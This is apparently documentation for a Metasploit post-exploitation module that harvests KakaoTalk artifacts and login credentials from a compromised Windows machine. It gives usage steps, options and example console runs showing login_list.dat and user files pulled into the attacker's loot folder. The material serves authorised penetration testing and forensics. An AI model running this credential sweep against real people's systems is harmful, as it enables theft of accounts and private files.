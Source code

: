 ## Module Description

This post-exploitation module gathers artifacts found on KakaoTalk related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/kakaotalk
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/kakaotalk) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Kakao's parent folder found
[*] Kakao's Login_list.dat file found
[*] Downloading C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users\login_list.dat
[*] Kakao Login_list.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513053411_default_192.168.56.106_Kakaologin_list._899884.dat

[+] login_list|**********@gmail.com
[+] File with credentials saved:  /root/.msf4/loot/20210513053412_default_192.168.56.106_EXTRACTIONlogin__547610.dat
[*] Kakao's parent folder found
[*] Kakao's * file found
[*] Downloading C:\Users\IEUser\Documents\KakaoTalk Downloads\AppleEvent.pages
[*] Kakao Appleevent.pages downloaded
[+] File saved to:  /root/.msf4/loot/20210513053412_default_192.168.56.106_KakaoAppleEvent._605437.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```

### Verbose Output
  ```
msf6 post(windows/gather/kakaotalk) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Starting Packrat...
[*] Kakao's parent folder found
[*] Kakao's Login_list.dat file found
[*] Processing C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users
[*] Downloading C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users\login_list.dat
[*] Kakao Login_list.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513053709_default_192.168.56.106_Kakaologin_list._746567.dat

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] login_list|**********@gmail.com
[+] File with credentials saved:  /root/.msf4/loot/20210513053709_default_192.168.56.106_EXTRACTIONlogin__448569.dat
[*] Kakao's parent folder found
[*] Kakao's * file found
[*] Processing C:\Users\IEUser\Documents\KakaoTalk Downloads
[*] Downloading C:\Users\IEUser\Documents\KakaoTalk Downloads\AppleEvent.pages
[*] Kakao Appleevent.pages downloaded
[+] File saved to:  /root/.msf4/loot/20210513053709_default_192.168.56.106_KakaoAppleEvent._975441.bin

[-] This artifact does not support any extraction type
[*] PackRat credential sweep Completed
[*] Post module execution completed

```